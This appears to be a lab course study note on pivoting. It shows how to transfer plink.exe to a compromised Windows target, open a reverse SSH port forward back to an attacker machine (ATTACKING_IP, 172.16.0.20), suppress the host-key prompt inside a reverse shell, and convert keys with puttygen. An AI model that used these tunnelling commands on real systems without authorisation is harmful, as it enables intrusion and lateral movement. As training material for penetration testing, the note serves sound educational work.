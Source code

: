 Plink.exe is a Windows command line version of the PuTTY SSH client. Now that Windows comes with its own inbuilt SSH client, plink is less useful for modern servers; however, it is still a very useful tool, so we will cover it here.

Generally speaking, Windows servers are unlikely to have an SSH server running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:  
`cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`  

Notice that this syntax is nearly identical to previously when using the standard OpenSSH client. The `cmd.exe /c echo y` at the start is for non-interactive shells (like most reverse shells -- with Windows shells being difficult to stabilise), in order to get around the warning message that the target has not connected to this host before.

To use our example from before, if we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80 back to port 8000 our own attacking machine (172.16.0.20), we could use this command:  
`cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N`

## puttygen

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:  
`puttygen KEYFILE -o OUTPUT_KEY.ppk`  
Substituting in a valid file for the keyfile, and adding in the output file.  

The resulting `.ppk` file can then be transferred to the Windows target and used in exactly the same way as with the Reverse port forwarding taught in the previous task (despite the private key being converted, it will still work perfectly with the same public key we added to the authorized_keys file before).

> [!Note]
> _Plink is notorious for going out of date quickly, which often results in failing to connect back. Always make sure you have an up to date version of the_ `.exe`_. Whilst there is a copy pre-installed on Kali at_ `/usr/share/windows-resources/binaries/plink.exe`_, downloading a new copy from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) before a new engagement is sensible._


---

> [!question]
>What tool can be used to convert OpenSSH keys into PuTTY style keys?
>`puttygen`

**Next step:** [[Socat]]

